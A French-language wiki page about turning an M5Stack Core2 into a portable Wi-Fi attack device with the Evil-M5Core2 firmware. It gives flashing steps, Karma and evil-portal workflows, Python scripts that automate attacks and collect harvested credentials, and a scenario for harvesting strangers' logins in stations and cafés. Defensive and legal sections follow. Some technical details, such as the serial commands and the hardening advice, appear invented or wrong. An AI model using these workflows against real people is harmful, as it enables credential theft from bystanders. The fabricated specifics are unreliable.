




# M5Stack

> [!info] **En 1 phrase**
> **Evil-M5Core2** = un logiciel de déploiement facile de **« Evil Portal » et
> d'applications rogue** pour la plateforme **M5Stack Core2** — Wi-Fi espion,
> portail captif et **attaque Karma** dans la poche.

---

## Overview

| Champ | Valeur |
|---|---|
| **Type** | Carte de développement / Plateforme IoT offensive |
| **Domaine** | Hardware Hacking / Wi-Fi Pentesting |
| **Niveau** | Beginner → Expert |
| **OS cibles** | ESP32 bare-metal, FreeRTOS, Lua/LuaRTOS |
| **Matériel requis** | M5Stack Core2, carte microSD, PC avec Arduino IDE |
| **Complexité** | Moyenne |
| **Dernière mise à jour** | 2025-08-14 |

> [!info] **Diagramme de contexte**
> ```mermaid
> flowchart LR
>     A["M5Stack Core2"] --> B["Wi-Fi 2.4 GHz"]
>     B --> C["Device cible (victime)"]
>     C --> D["Credentials capturés"]
>     style A fill:#e1f5fe
>     style D fill:#c8e6c9
> ```

---

## Concept

> Le M5Stack Core2 est une plateforme ESP32 tout-en-un (écran tactile, batterie, microSD, Wi-Fi) qui permet de déployer des attaques Wi-Fi portables : clone de SSID (Karma), portail captif pour harvest de credentials, sniffing de probes, et serveur web de contrôle à distance — le tout dans un boîtier de 54×54×16.5mm.



> [!info] **Le principe**
> On clône un SSID connu, le téléphone de la victime se reconnecte tout seul,
> et le M5Core2 affiche une page de login qui capture les identifiants.

---

## Concepts fondamentaux

### Karma Attack & probe sniffing

Les appareils mobiles diffusent en clair les SSID des réseaux connus (probes) lorsque le Wi-Fi est activé même hors portée du réseau. Le M5Stack capture ces probes, identifie les SSID, puis émet le même SSID pour attirer la victime (Karma Attack). La reconnexion est automatique car l'appareil fait confiance auSSID.

| Terme | Définition |
|---|---|
| **Probe Request** | Trame Wi-Fi diffusée par un client pour chercher les réseaux connus |
| **Karma Attack** | Émission d'un faux AP avec le même SSID qu'un réseau connu de la victime |
| **Captive Portal** | Page HTML interstitielle présentée avant l'accès au réseau, utilisée ici pour usurper un login |
| **Evil Twin** | AP malveillant qui imite un légitime (base de la Karma Attack) |
| **PMKID** | Identifiant Pairwise Master Key, cible d'attaque WPA2 hors-ligne |

### Evil Portal & credential harvesting

Le firmware Evil-M5Core2 déploie un portail captif sur le M5Core2. La victime se connecte au SSID cloné, est redirigée vers une page de login (Facebook, Google, entreprise…), saisit ses identifiants, et le M5 les stocke sur la carte microSD. Un serveur web intégré permet de récupérer les données à distance.


### Wi-Fi monitoring & WIDS

Un système WIDS (Wireless Intrusion Detection System) peut détecter les SSID fantômes et les anomalies de probes. La présence du M5Stack génère des signaux radio que les capteurs RF peuvent identifier.

---

## Matériel / Composants

### Outils principaux

| Outil | Type | Usage | Prix | Source |
|---|---|---|---|---|
| M5Stack Core2 | Carte ESP32 | Plateforme d'attaque Wi-Fi standalone | ~35 USD | M5Stack |
| M5StickV | Caméra AI | Reconnaissance faciale / OCR embarquée | ~50 USD | M5Stack |
| M5Stamp C5 | Module ESP32-C5 | Wi-Fi 6 dual-band (2.4/5 GHz), BLE 5, Zigbee/Thread | ~8 USD | M5Stack |
| M5Stamp S3A | Module ESP32-S3 | Wi-Fi 2.4 GHz, BLE 5 | ~6 USD | M5Stack |
| Carte microSD | Stockage | Stockage des probes et credentials capturés | ~5 USD | Standard |
| Câble USB-C | Alimentation / flashing | Programmation et alimentation | ~3 USD | Standard |

### Cibles typiques

| Catégorie | Exemples | Protocoles | Vulnérabilités |
|---|---|---|---|
| Smartphones | iOS, Android | Wi-Fi 2.4/5 GHz | Reconnexion auto aux SSID connus |
| Tablets | iPad, Android tablets | Wi-Fi, Bluetooth | Probes en clair |
| Laptops | Windows, macOS, Linux | Wi-Fi 2.4/5 GHz | Auto-connect, captive portal bypass |
| IoT domestique | Caméras, thermostats | Wi-Fi 2.4 GHz | Credentials faibles, défauts de fabrication |
| Réseaux entreprise | Corporate Wi-Fi | WPA2-Enterprise | Certains clients ignorent les certificats |

### Pinout / Brochage M5Stack Core2

```
Vue du M5Stack Core2 (face avant écran) :

  ┌──────────────────────┐
  │   ┌──────────────┐   │
  │   │  2.0" Touch  │   │
  │   │    Screen    │   │
  │   │  320×240     │   │
  │   └──────────────┘   │
  │   ●        ●     ●   │  ← 3 boutons tactiles virtuels
  │                      │
  │   USB-C    [Reset]   │
  │                      │
  │   [Power]   [RST]    │  ← B physiques côté gauche
  └──────────────────────┘

Brochage M5-Bus (bas du module) :
  Pin 1  = GND
  Pin 2  = 5V
  Pin 3  = 3.3V
  Pin 4  = TX (UART0)
  Pin 5  = RX (UART0)
  Pin 6  = SDA (I2C)
  Pin 7  = SCL (I2C)
  Pin 8  = GROVE (I2C + IO + UART)
```

---

## Protocoles

### Wi-Fi 2.4 GHz (802.11 b/g/n)

| Paramètre | Valeur |
|---|---|
| **Type** | Sans fil |
| **Vitesse** | jusqu'à 150 Mbps (HT40) |
| **Voltage** | N/A (RF 2.4 GHz) |
| **Nombre de canaux** | 14 (2.401-2.483 GHz) |
| **Direction** | Full-duplex |

### UART (debug)

| Paramètre | Valeur |
|---|---|
| **Type** | Série |
| **Vitesse** | 115200 baud (défaut) |
| **Voltage** | 3.3V TTL |
| **Nombre de fils** | 2 (TX, RX) + GND |
| **Direction** | Full-duplex |

### I2C (bus interne)

| Paramètre | Valeur |
|---|---|
| **Type** | Série |
| **Vitesse** | 400 kHz (Fast Mode) |
| **Voltage** | 3.3V |
| **Nombre de fils** | 2 (SDA, SCL) |
| **Direction** | Half-duplex |

### Comparaison des protocoles

| Protocole | Vitesse | Complexité | Sécurité | Usage typique |
|---|---|---|---|---|
| Wi-Fi 2.4 GHz | 150 Mbps | Moyenne | Faible (WPA2) | Communication / attaque |
| UART | 115200 baud | Faible | Aucune | Console debug |
| I2C | 400 kHz | Faible | Aucune | Capteurs internes |
| SPI | 8 MHz | Faible | Aucune | MicroSD, écran |

---

## Installation / Setup

### Prérequis

| Composant | Version | Lien |
|---|---|---|
| Arduino IDE | 2.x | arduino.cc |
| M5Stack boards manager | latest | arduino board manager |
| Librairie M5Unified | latest | Arduino Library Manager |
| Librairie adafruit_neopixel | latest | Arduino Library Manager |
| ESP32 board package | v2.0.14 (pas 3.0.0-alpha3) | arduino board manager |

### Connexion physique

```
PC ──── USB-C ──── M5Stack Core2
│                    │
│  flashing          │ microSD slot (côté bas)
│  via USB-C         │
│                    │ GROVE port (I2C+IO+UART)
```

### Outils logiciels

```bash
# Installation du board manager ESP32 (Arduino IDE 2.x)
# File → Preferences → Additional Board Manager URLs:
# https://dl.espressif.com/dl/package_esp32_index.json

# Installation via CLI (si utilisation PlatformIO)
pip install platformio
pio init --board m5stack-core2

# Flash via esptool (alternatif)
esptool.py --port COM3 --baud 921600 write_flash 0x0 Evil-M5Core2.ino.bin
```

### Installation du firmware Evil-M5Core2

```bash
# Cloner le repository
git clone https://github.com/7h30th3r0n3/Evil-M5Core2
cd Evil-M5Core2

# Ouvrir dans Arduino IDE
# 1. Connecter le M5Core2 via USB-C
# 2. Sélectionner le board : M5Stack-Core2
# 3. Sélectionner le port COM approprié
# 4. Vérifier et uploader

# Préparer la carte microSD
mkdir -p SD_ROOT/IMG
mkdir -p SD_ROOT/sites
# Copier le contenu nécessaire sur la microSD
```

---

## Configuration

### Paramètres du logiciel Evil-M5Core2

| Option | Valeur par défaut | Description |
|---|---|---|
| SSID cible | Manuelle | SSID à cloner |
| Port web server | 80 | Interface de contrôle à distance |
| Channel | Auto | Canal Wi-Fi d'émission |
| Probe sniffing | Activé | Capture des probes en continu |
| Karma Attack | Semi-auto | Tente la Karma sur probes capturées |
| SD card path | / | Racine de la microSD |

### Configuration matérielle

| Paramètre | Recommandé | Min | Max |
|---|---|---|---|
| Voltage batterie | 3.7V | 3.0V | 4.2V |
| MicroSD format | FAT32 | FAT16 | exFAT |
| Taille microSD | 32 GB | 1 GB | 128 GB |
| Distance Wi-Fi | 10-30m | 1m | 100m (line of sight) |

### Adaptateurs compatibles

| Adaptateur | Interface | Voltage | Note |
|---|---|---|---|
| CH341A | USB-SPI/I2C | 3.3V/5V | Dump flash SPI externe |
| Bus Pirate | USB multi-protocole | 3.3V/5V | Polyvalent |
| CP2104 | USB-UART | 3.3V | Interface série debug |
| CH9102F | USB-UART | 3.3V | Variante du CP2104 |

---

## Commandes / Manipulations

### Commandes essentielles

| Commande | Description | Exemple |
|---|---|---|
| Scan Wi-Fi | Scanner les réseaux environnants | Via interface tactile M5 |
| Clone SSID | Cloner un réseau identifié | Sélection du SSID dans la liste |
| Start Portal | Lancer le portail captif | Bouton "Start" sur l'écran |
| Karma Attack | Tenter une Karma Attack | Sélectionner une probe capturée |
| Start Web Server | Lancer le serveur web distant | Configuration dans le menu |
| View Logs | Consulter les logs capturés | Via carte SD ou web server |

### Connexion série (debug)

```bash
# Linux
screen /dev/ttyUSB0 115200

# Windows
# Utiliser PuTTY, port COM3, 115200 baud

# minicom (Linux)
minicom -D /dev/ttyUSB0 -b 115200
```

### Lecture / Écriture via esptool

```bash
# Lire le firmware actuel
esptool.py --port COM3 read_flash 0x0 0x400000 firmware_backup.bin

# Écrire un nouveau firmware
esptool.py --port COM3 write_flash 0x0 Evil-M5Core2.ino.bin

# Effacer la flash complète
esptool.py --port COM3 erase_flash
```

---

## Exemples pratiques

### Débutant — Scan des réseaux Wi-Fi

```bash
# 1. Flasher le firmware Evil-M5Core2 sur le M5Stack Core2
# 2. Insérer la carte microSD préparée
# 3. Allumer le M5Stack Core2
# 4. Sur l'écran tactile, naviguer vers "WiFi Scan"
# 5. Attendre la fin du scan (~10 secondes)
# 6. La liste des SSID s'affiche avec force du signal
```

### Intermédiaire — Karma Attack sur un SSID capturé

```bash
# 1. Activer le probe sniffing (menu → Sniff Probes)
# 2. Attendre que le M5 capture des probes des appareils proches
# 3. Sélectionner une probe capturée (SSID connu de la victime)
# 4. Lancer la Karma Attack (bouton "Karma")
# 5. Le M5 émet le SSID — la victime se reconnecte automatiquement
# 6. Le portail captif s'affiche sur le téléphone de la victime
# 7. Les credentials sont stockés sur la microSD
```

### Avancé — Déploiement complet Evil Portal + Web Server

```python
#!/usr/bin/env python3
"""
Script d'exploitation avancé Evil-M5Core2
Contrôle à distance via le web server intégré
"""
import requests
import time

M5STACK_IP = "192.168.4.1"
WEB_SERVER = f"http://{M5STACK_IP}"

def get_captured_credentials():
    """Récupérer les credentials capturés via le web server"""
    response = requests.get(f"{WEB_SERVER}/credentials")
    return response.text

def upload_custom_portal(html_file):
    """Uploader un portail captif personnalisé"""
    with open(html_file, "rb") as f:
        files = {"file": f}
        requests.post(f"{WEB_SERVER}/upload", files=files)

def get_probes():
    """Lister les probes capturées"""
    response = requests.get(f"{WEB_SERVER}/probes")
    return response.text

# Boucle de surveillance
while True:
    creds = get_captured_credentials()
    if creds:
        print(f"[+] Credentials capturés: {creds}")
    probes = get_probes()
    print(f"[*] Probes capturées: {len(probes.splitlines())}")
    time.sleep(30)
```

### Expert — Attaque Karma automatisée multi-probes

```python
#!/usr/bin/env python3
"""
Technique de niveau expert : Karma Attack automatisée
 sur toutes les probes capturées en séquence
"""
import subprocess
import time
import json

PROBE_SCAN_INTERVAL = 60  # secondes
KARMA_DURATION = 120      # secondes par attaque
DELAY_BETWEEN = 30        # délai entre attaques

def scan_probes(m5stack_interface):
    """Scanner les probes via l'interface série du M5Stack"""
    subprocess.run([
        "screen", "-S", "m5stack", "-X", "stuff",
        f"SCAN_PROBES\r"
    ])
    time.sleep(5)
    # Parser la sortie depuis le log
    with open("/tmp/m5_probes.json", "r") as f:
        return json.load(f)

def execute_karma(probe_ssid):
    """Lancer une Karma Attack sur un SSID spécifique"""
    subprocess.run([
        "screen", "-S", "m5stack", "-X", "stuff",
        f"KARMA {probe_ssid}\r"
    ])
    time.sleep(KARMA_DURATION)
    subprocess.run([
        "screen", "-S", "m5stack", "-X", "stuff",
        "STOP_KARMA\r"
    ])

# Exécution principale
while True:
    probes = scan_probes("/dev/ttyUSB0")
    for probe in probes:
        ssid = probe.get("ssid")
        print(f"[*] Karma Attack sur: {ssid}")
        execute_karma(ssid)
        time.sleep(DELAY_BETWEEN)
```

---

## Workflow complet (scénario pas à pas)



### Étape 1 — Identification

| Action | Commande | Résultat attendu |
|---|---|---|
| Vérifier le modèle M5Stack | Inspecter le PCB, marquage | Core2, Core, Stick… |
| Vérifier la version ESP32 | `esptool.py chip_id` | ESP32-D0WDQ6-V3 |
| Identifier le firmware actuel | `esptool.py read_flash` | Dump du firmware |

### Étape 2 — Repérage des broches

| Méthode | Difficulté | Fiabilité |
|---|---|---|
| M5-Bus connector | Faible | Élevée |
| Broches de test sur PCB | Moyenne | Élevée |
| Pins GROVE (I2C+IO+UART) | Faible | Élevée |

### Étape 3 — Connexion

Brancher le M5Stack Core2 via USB-C, insérer la carte microSD préparée, allumer le device.

### Étape 4 — Exploitation

Lancer le scan Wi-Fi, sélectionner la cible, activer le probe sniffing, lancer la Karma Attack ou le portail captif.

### Étape 5 — Post-exploitation

Récupérer les credentials depuis la microSD ou le web server distant, analyser les probes capturées, documenter les findings.

---

## Scénarios avancés

### Scénario 1 — Evil Twin + Captive Portal sur réseau entreprise

| Élément | Détail |
|---|---|
| **Objectif** | Capturer les credentials Wi-Fi d'un réseau entreprise WPA2-PSK |
| **Matériel** | M5Stack Core2, carte microSD 32GB, batterie externe |
| **Étapes** | 1. Scan des probes → 2. Identifier le SSID entreprise → 3. Cloner le SSID → 4. Lancer le portail captif avec page "Mise à jour réseau" → 5. Capturer les credentials |
| **Résultat** | Identifiants Wi-Fi du réseau entreprise |
| **Difficulté** | |


### Scénario 2 — Karmic Attack automatisée sur zone publique

| Élément | Détail |
|---|---|
| **Objectif** | Capturer des credentials multiples dans une zone à fort trafic (gare, café) |
| **Matériel** | M5Stack Core2, batterie 5000mAh, sac à dos discret |
| **Étapes** | 1. Probe sniffing continu → 2. Karma Attack séquentielle sur chaque probe → 3. Portail captif avec page "Wi-Fi gratuit" → 4. Récupération à distance via web server |
| **Résultat** | Multiples identifiants Wi-Fi et/ou emails |
| **Difficulté** | |

---

## Cybersecurity use cases

| Use case | Sévérité | Matériel requis | Impact |
|---|---|---|---|
| Capture de credentials Wi-Fi | Haute | M5Stack Core2 | Accès au réseau entreprise |
| Test de résistance aux attaques Karma | Moyenne | M5Stack Core2 | Validation de la sensibilisation |
| Évaluation du WIDS | Haute | M5Stack + capteurs RF | Test de détection des rogue AP |
| Audit de conformité Wi-Fi | Moyenne | M5Stack + analyseur logique | Vérification des politiques de sécurité |

| Phase pentest | Ce que permet cette technique |
|---|---|
| Recon | Cartographie des réseaux Wi-Fi et des clients |
| Accès initial | Capture de credentials Wi-Fi via Karma/portal |
| Maintien d'accès | Rogue AP persistant avec credentials capturés |
| Évasion | Attaque physique hors périmètre de détection réseau |

---

## MITRE ATT&CK

| Technique ID | Nom | Catégorie | Applicabilité |
|---|---|---|---|
| T1200 | Hardware Additions | Initial Access | Ajout du M5Stack comme rogue AP |
| T1195.002 | Supply Chain Compromise: Software Supply Chain | Initial Access | Firmware malveillant sur M5Stack |
| T1552.001 | Unsecured Credentials: Credentials In Files | Credential Access | Extraction de credentials depuis microSD |
| T1005 | Data from Local System | Collection | Dump des probes et credentials capturés |
| T1557 | Adversary-in-the-Middle | Collection | Evil Twin / Karma comme AitM |



### Mapping détaillé

| Phase MITRE | Technique | Cette fiche couvre |
|---|---|---|
| Initial Access | T1200 Hardware Additions | Déploiement physique du M5Stack |
| Initial Access | T1195.002 Supply Chain | Firmware Evil-M5Core2 |
| Credential Access | T1552.001 Credentials in Files | Harvest via portail captif |
| Collection | T1005 Data from Local System | Dump microSD |
| Collection | T1557 Adversary-in-the-Middle | Evil Twin / Karma Attack |

---

## Defensive Security

### Détection

| Signal de détection | Source | Fiabilité |
|---|---|---|
| SSID fantôme détecté | WIDS / AP monitoring | Élevée |
| Probes inhabituelles | Client monitoring | Moyenne |
| Portail captif inconnu | User reporting | Faible |
| Trafic RF anormal | Spectrum analyzer | Moyenne |

| Indicateur | Log / Capteur | Seuil d'alerte |
|---|---|---|
| Nouveau SSID similaire | WIDS logs | Tout nouveau SSID |
| Reconnexion hors portée | Client logs | >3 reconnexions/heure |
| Trafic HTTP non-encrypté | Firewall / IDS | >50 requêtes/minute |

### Prévention

| Mesure | Efficacité | Coût | Priorité |
|---|---|---|---|
| Désactiver Wi-Fi inutilisé | Élevée | Gratuit | Haute |
| 802.1X (WPA2-Enterprise) | Très élevée | Moyen | Haute |
| Anti-Karma (ne pas stocker les probes) | Élevée | Gratuit | Haute |
| Monitoring RF continu | Élevée | Élevé | Moyenne |
| Sensibilisation utilisateurs | Moyenne | Faible | Haute |

### Durcissement (hardening)

```bash
# Désactiver la connexion automatique aux SSID connus (Android)
# Settings → Wi-Fi → Advanced → "Connect to network automatically" → OFF

# Désactiver le Wi-Fi quand il n'est pas utilisé
# Sur iOS : Settings → Wi-Fi → OFF
# Sur Android : Settings → Network → Wi-Fi → OFF

# Vérifier les certificats 802.1X
# Sur Android : Settings → Security → Trust agents → Smart Lock → OFF
```

---

## Automatisation

### Scripts d'exploitation

```python
#!/usr/bin/env python3
"""Script d'automatisation pour Karma Attack via M5Stack"""
import serial
import time
import json

SERIAL_PORT = "/dev/ttyUSB0"
BAUD_RATE = 115200

def connect_m5stack():
    """Connexion série au M5Stack"""
    return serial.Serial(SERIAL_PORT, BAUD_RATE, timeout=1)

def scan_probes(ser):
    """Scanner les probes Wi-Fi"""
    ser.write(b"SCAN_PROBES\n")
    time.sleep(10)
    response = ser.read(ser.inWaiting()).decode()
    return response

def launch_karma(ser, ssid):
    """Lancer une Karma Attack sur un SSID"""
    ser.write(f"KARMA {ssid}\n".encode())
    time.sleep(5)
    return "Karma lancée"

def get_credentials(ser):
    """Récupérer les credentials capturés"""
    ser.write(b"GET_CREDS\n")
    time.sleep(2)
    return ser.read(ser.inWaiting()).decode()

# Exécution
ser = connect_m5stack()
probes = scan_probes(ser)
print(f"[*] Probes capturées: {probes}")

for probe in probes.split("\n"):
    if probe.strip():
        print(f"[*] Karma sur: {probe}")
        launch_karma(ser, probe)
        time.sleep(120)
        creds = get_credentials(ser)
        if creds:
            print(f"[+] Credentials: {creds}")
```

### Outils d'automatisation

| Outil | Usage | Lien |
|---|---|---|
| Evil-M5Core2 | Firmware d'attaque Wi-Fi | github.com/7h30th3r0n3 |
| esptool.py | Flashing ESP32 | github.com/espressif |
| PlatformIO | IDE de développement | platformio.org |
| Wireshark | Analyse de trames Wi-Fi | wireshark.org |

### Intégration dans des frameworks

| Framework | Méthode d'intégration |
|---|---|
| Metasploit | Module custom pour recevoir les credentials |
| Custom framework | API REST via le web server du M5Stack |
| AttackBox | Intégration via le web server distant |

---

## Output et parsing

### Formats de sortie

| Format | Exemple | Utilité |
|---|---|---|
| JSON (web server) | `{"ssid":"CorpWifi","creds":"user:pass"}` | Parsing automatique |
| CSV (microSD) | `timestamp,ssid,password` | Analyse dans Excel |
| Texte brut (logs) | `2025-08-14 10:30:00 SSID:CorpWifi` | Debug |
| HTML (portail) | Page de login personnalisée | Credential harvesting |

### Parsing des résultats

```bash
# Extraction des credentials depuis la microSD
cat /mnt/sd/credentials.csv | grep -v "^timestamp"

# Export des probes en JSON
cat /mnt/sd/probes.json | jq '.[] | select(.ssid | contains("Corp"))'

# Filtrer par date
grep "2025-08-14" /mnt/sd/credentials.csv
```

### Intégration SIEM / Logging

| Source | Format | Pipeline |
|---|---|---|
| M5Stack web server | JSON | API → Syslog → SIEM |
| MicroSD logs | CSV | File transfer → Log parser |
| UART debug | Texte brut | Serial → Log aggregation |

---

## Intégrations

- [[13 - Hardware & IoT| Hardware & IoT]] global
- [[Hardware - ESP32| ESP32]] pour les détails sur l'architecture
- [[Hardware - Dump et Analyse de Firmware| Dump de firmware]] pour l'analyse du firmware M5Stack
- [[Hardware - I2C et SPI| I2C/SPI]] pour les protocoles internes

| Outils associés | Usage complémentaire |
|---|---|
| ESP32 | Processeur principal du M5Stack Core2 |
| Arduino IDE | Développement et flashing du firmware |
| Wireshark | Analyse des trames Wi-Fi capturées |
| Flipper Zero | Alternative portable pour d'autres attaques |

| Intégration | Comment |
|---|---|
| WIDS | Détection du rogue AP M5Stack |
| Firewall | Blocage des connexions vers le M5Stack |
| SIEM | Corrélation des alertes Wi-Fi |

---

## Alternatives

| Alternative | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Flipper Zero | Multi-protocole, communauté | Pas de Wi-Fi natif | RFID, NFC, Sub-GHz |
| WiFi Pineapple | Plus puissant, plus de fonctionnalités | Plus cher, moins portable | Pentest Wi-Fi professionnel |
| HackRF One | SDR full-duplex | Complexe, pas standalone | Analyse RF avancée |
| Raspberry Pi Zero W | Linux complet, Wi-Fi | Plus encombrant | Evil Twin avancé |



---

## Performance

| Métrique | Valeur | Impact |
|---|---|---|
| Vitesse de scan Wi-Fi | ~10 secondes | Rapide |
| Portée d'émission | 10-30m (intérieur) | Suffisant pour un bureau |
| Batterie | 500mAh (~2-3h actif) | Limité sans batterie externe |
| Nombre de SSID simultanés | 1 | Par probe successivement |
| Débit web server | ~1 Mbps | Suffisant pour credentials |
| Stockage microSD | 32 GB max | ~1M de credentials |

### Optimisations

| Technique | Gain | Complexité |
|---|---|---|
| Batterie externe 5000mAh | +8h autonomie | Faible |
| Antenne externe (U.FL) | +100% portée | Moyenne |
| Optimisation du portail | +50% taux de capture | Moyenne |
| Multi-channel scanning | +200% couverture | Élevée |

---

## Troubleshooting

| Problème | Cause probable | Solution |
|---|---|---|
| M5Stack ne démarre pas | Batterie vide / firmware corrompu | Recharger, reflasher |
| Pas de Wi-Fi détecté | Antenne déconnectée / canal | Vérifier l'antenne, changer de canal |
| Portail non accessible | Mauvais SSID / channel | Vérifier la configuration, redémarrer |
| Credentials non stockés | microSD non formatée / pleine | Formater en FAT32, vider l'espace |
| Crash aléatoire | Version ESP32 incompatble | Utiliser ESP32 v2.0.14 |

### Erreurs courantes

```
Erreur : "Brownout detector was triggered"
Cause : Batterie insuffisante
Solution : Connecter une alimentation USB ou batterie externe

Erreur : "Sketch too big"
Cause : ESP32 board package trop récent (3.0.0-alpha3)
Solution : Utiliser ESP32 v2.0.14 ou inférieur
```

### Diagnostic

```bash
# Vérifier la connexion série
screen /dev/ttyUSB0 115200

# Vérifier le chip ID
esptool.py chip_id

# Vérifier l'état de la microSD
ls /mnt/sd/
df -h /mnt/sd/

# Vérifier la version du firmware
esptool.py read_flash 0x0 0x100 /tmp/header.bin
xxd /tmp/header.bin | head -5
```

---

## Sécurité

| Risque | Impact | Mitigation |
|---|---|---|
| Capture de données personnelles | Élevé | Cadre légal strict |
| Attaque sur réseau entreprise | Très élevé | Autorisation écrite |
| Récupération du device | Élevé | Chiffrement de la microSD |
| Attribution physique | Élevé | Utilisation dans un lab |

> [!warning] Points de sécurité
> - Toujours obtenir une **autorisation écrite** avant toute attaque Wi-Fi
> - Ne jamais capturer de données en dehors du périmètre autorisé
> - Sécuriser le M5Stack contre la récupération (chiffrement SD)

### Restrictions légales

> [!danger] Cadre légal
> L'utilisation du M5Stack pour des attaques Wi-Fi (Karma, Evil Twin, portail captif) est **illégale** sans autorisation explicite. Ces techniques sont réservées au pentest autorisé et au testing en environnement contrôlé. Les lois sur l'interception de communications s'appliquent.

---

## Limitations

| Limite | Impact | Contournement |
|---|---|---|
